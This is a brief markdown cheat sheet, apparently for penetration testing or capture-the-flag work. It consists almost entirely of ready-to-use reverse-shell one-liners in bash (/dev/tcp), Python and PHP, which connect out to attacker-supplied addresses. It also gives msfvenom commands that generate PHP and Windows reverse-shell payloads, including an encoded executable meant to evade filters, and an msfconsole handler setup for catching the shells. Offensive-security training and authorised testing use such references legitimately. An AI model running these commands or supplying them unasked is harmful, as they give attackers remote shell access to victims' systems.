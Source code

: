 ## Linux TCP Socket shell
```
bash -i >& /dev/tcp/10.10.10.10/443 0>&1
```

### Python Reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("my-ip",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
### php reverse shell
```
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

## msfvenom cheat sheet

### PHP Reverse shell
```
msfvenom -p php/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -f raw
``` 

### windows reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<local_ip> LPORT=31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o v.exe
```

### Encoded Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4545 -f c -e x86/shikata_ga_nai

## msfconsole
```
root@kali:~$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
